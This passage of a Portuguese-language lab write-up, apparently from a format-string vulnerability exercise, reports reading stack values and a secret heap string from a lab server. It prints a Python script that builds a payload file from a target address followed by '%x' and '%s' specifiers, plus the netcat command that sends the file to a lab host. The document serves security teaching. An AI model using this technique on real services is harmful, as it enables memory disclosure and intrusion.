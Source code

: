 * Ora, o conteúdo impresso termina com o número **0x1234567a** (que tinha sido anteriormente introduzido por nós na *stack*, no início da variável `buf`), o que comprova que foram lidos dados da *stack* através do recurso a 64 especificadores `%x` (63 para retirar/imprimir valores entre a *string* de formatação e o início da variável `buf` e 1 para imprimir o início da variável `buf`)

### Tarefa 2.B: Dados da *Heap*

* De acordo com a informação impressa pelo servidor, o endereço da mensagem secreta armazenada na *heap* é **0x080b4008**

* Ora, para imprimir o conteúdo armazenado num endereço de memória, basta colocar esse endereço de memória na *stack* e usar um especificador `%s` para tentar ler a *string* que se encontra nesse mesmo endereço

* Como tal, em concordância com o valor determinado na tarefa anterior, editamos o ficheiro `build_string.py` para escrever, de forma *little-endian*, o número **0x080b4008** - correspondente ao endereço da mensagem secreta a ler - no início do ficheiro `badfile`, seguindo-o de 63 especificadores `%x` e 1 especificador `%s`, resultando no código seguinte

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to construct a string s with
#   63 of "%x", concatenated with a "%s"
s = "%x" * 63 + "%s"

# The line shows how to store the string s at offset 4
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

* Deste modo, ao correr `./build_script.py` e fazer `cat badfile | nc 10.9.0.5 9090`, foram impressos 63 valores (em hexadecimal) contidos na *stack*, seguidos da mensagem secreta **"A secret message"**, conforme comprova a captura de ecrã presente abaixo
